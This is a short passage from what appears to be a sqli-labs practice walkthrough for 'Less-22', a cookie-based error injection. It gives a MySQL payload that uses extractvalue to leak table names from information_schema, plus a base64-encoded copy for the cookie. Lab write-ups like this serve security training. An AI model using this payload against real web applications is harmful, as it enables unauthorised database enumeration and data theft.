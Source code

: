 ![image-20241008091950758](./assets/image-20241008091950758.png)

****

### Less-22(cookie报错注入->报错+base64)

```sql
admin"and extractvalue(1,concat(0x3a,(select group_concat(table_name)from information_schema.tables where table_schema=database()),0x3a))#

YWRtaW4iYW5kIGV4dHJhY3R2YWx1ZSgxLGNvbmNhdCgweDNhLChzZWxlY3QgZ3JvdXBfY29uY2F0KHRhYmxlX25hbWUpZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEudGFibGVzIHdoZXJlIHRhYmxlX3NjaGVtYT1kYXRhYmFzZSgpKSwweDNhKSkj
```
